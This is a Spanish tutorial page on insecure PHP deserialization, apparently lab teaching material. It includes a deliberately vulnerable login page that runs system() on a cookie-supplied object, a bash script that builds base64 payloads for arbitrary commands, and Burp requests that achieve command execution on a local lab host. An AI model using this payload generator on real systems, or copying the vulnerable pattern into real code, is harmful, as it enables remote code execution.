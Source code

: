 ```yaml
---
icon: php
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Deserialización Insegura PHP

## Pagina Vulnerable Deserialización Insegura en PHP

Si nosotros por ejemplo tenemos este codigo de `PHP` como una pagina por ejemplo:

> index.php

```php
<?php
// Clase vulnerable: al deserializar el objeto se ejecuta el comando almacenado en $cmd
class Vulnerable {
    public $cmd;

    public function __construct($cmd) {
        $this->cmd = $cmd;
    }

    public function __destruct() {
        system($this->cmd);
    }
}

// Función para verificar si las credenciales son correctas
function authenticate($username, $password) {
    $valid_users = [
        'admin' => 'admin',
        'user' => 'user'
    ];

    if (isset($valid_users[$username]) && $valid_users[$username] === $password) {
        return true;
    }
    return false;
}

// Si el formulario es enviado
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Recuperamos las credenciales del formulario
    $username = $_POST['username'] ?? '';
    $password = $_POST['password'] ?? '';

    // Si las credenciales son correctas
    if (authenticate($username, $password)) {
        // Creamos un payload malicioso (cookie) solo para usuarios válidos
        $cmd = "echo 'Comando ejecutado exitosamente';";  // Cambia esto con el comando que desees
        $vulnerable_object = new Vulnerable($cmd);
        $serialized_object = serialize($vulnerable_object);
        $encoded_payload = base64_encode($serialized_object);

        // Establecemos la cookie con el payload
        setcookie('session', $encoded_payload, time() + 3600, "/"); // La cookie durará 1 hora

        // Redirigimos al usuario a panel.php después del login
        header('Location: panel.php?username=' . urlencode($username));
        exit;
    } else {
        echo "<p>Credenciales incorrectas. Por favor, inténtalo de nuevo.</p>";
    }
}
?>

<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login - Deserialización Insegura</title>
</head>
<body>
    <h1>Login de Usuario</h1>

    <!-- Formulario de login -->
    <form method="POST">
        <label for="username">Nombre de usuario:</label>
        <input type="text" id="username" name="username" required><br><br>

        <label for="password">Contraseña:</label>
        <input type="password" id="password" name="password" required><br><br>

        <button type="submit">Iniciar sesión</button>
    </form>
</body>
</html>
```

Vemos que no valida la entrada que se `serializa` y la `deserializa` lo que venga de forma insegura, ya que no tiene ninguna medida de seguridad como por ejemplo una implementacion de `JWT`, si entramos a esta pagina veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (288).png" alt=""><figcaption></figcaption></figure>

El usuario por defecto sera el siguiente:

```
user:user
```

Ingresamos las credenciales y abriremos `BurpSuite` para recargar la pagina con la sesion iniciada del usuario `user` y veremos lo siguiente en la peticion con `BurpSuite`:

<figure><img src="../../../.gitbook/assets/image (287).png" alt=""><figcaption></figcaption></figure>

> Peticion de BurpSuite

```
GET /panel.php?username=user HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://172.17.0.2/
Connection: keep-alive
Cookie: PHPSESSID=r5gbqlkt226hdgitiv4q5jekou; session=TzoxMDoiVnVsbmVyYWJsZSI6MTp7czozOiJjbWQiO3M6Mzg6ImVjaG8gJ0NvbWFuZG8gZWplY3V0YWRvIGV4aXRvc2FtZW50ZSc7Ijt9
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Vemos que la `serializacion` esta en `session=` por lo que tendremos que reemplazar su contenido, por otro codigo `serializado` con el comando que queramos ejecutar.

## Generar Payload Serializado en Base64

Nos crearemos un script en `bash` para generar codigos `serializados`:

> exploitSerial.sh

```bash
#!/bin/bash

# Verificamos si el usuario pasó el comando
if [ -z "$1" ]; then
    echo "Uso: $0 '<comando_a_ejecutar>'"
    exit 1
fi

# El comando que queremos ejecutar, recibido como argumento
COMMAND=$1

# Creamos un archivo PHP temporal con el código que genera el payload
cat > /tmp/serializable_payload.php <<EOF
<?php
// Clase vulnerable: al deserializar el objeto se ejecuta el comando almacenado en \$cmd
class Vulnerable {
    public \$cmd;

    public function __construct(\$cmd) {
        \$this->cmd = \$cmd;
    }

    public function __destruct() {
        system(\$this->cmd);
    }
}

// Creamos el objeto vulnerable con el comando proporcionado
\$vulnerable_object = new Vulnerable("$COMMAND");

// Serializamos el objeto
\$serialized_object = serialize(\$vulnerable_object);

// Mostramos el objeto serializado en Base64
echo base64_encode(\$serialized_object);
EOF

# Ejecutamos el archivo PHP y obtenemos el payload en base64
payload=$(php /tmp/serializable_payload.php)

# Limpiamos el archivo temporal
rm /tmp/serializable_payload.php

# Mostramos el payload
echo "Payload Base64: $payload"
```

Ahora lo ejecutaremos de la siguiente forma:

```shell
bash exploitSerial.sh 'touch /tmp/exploit.txt'
```

Info:

```
Payload Base64: TzoxMDoiVnVsbmVyYWJsZSI6MTp7czozOiJjbWQiO3M6MjI6InRvdWNoIC90bXAvZXhwbG9pdC50eHQiO30=
```

## Enviar Payload al servidor

Ahora este resultado tendremos que pegarlo en la peticion donde `session=` quedando de la siguiente forma:

```
GET /panel.php?username=user HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://172.17.0.2/
Connection: keep-alive
Cookie: PHPSESSID=r5gbqlkt226hdgitiv4q5jekou; session=TzoxMDoiVnVsbmVyYWJsZSI6MTp7czozOiJjbWQiO3M6MjI6InRvdWNoIC90bXAvZXhwbG9pdC50eHQiO30=
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Ahora si enviamos la `peticion` veremos lo siguiente en la pagina:

<figure><img src="../../../.gitbook/assets/image (286).png" alt=""><figcaption></figcaption></figure>

Vemos que algo ha sido modificado, por lo que podemos deducir que si ha funcionado correctamente.

Vamos a irnos al servidor para comprobar que ha funcionado la `deserializacion` y que se ha ejecutado de forma correcta en el servidor:

<figure><img src="../../../.gitbook/assets/image (285).png" alt=""><figcaption></figcaption></figure>

Vemos que ha funcionado, por lo que podremos generar `payloads` y ejecutar codigo de forma remota.
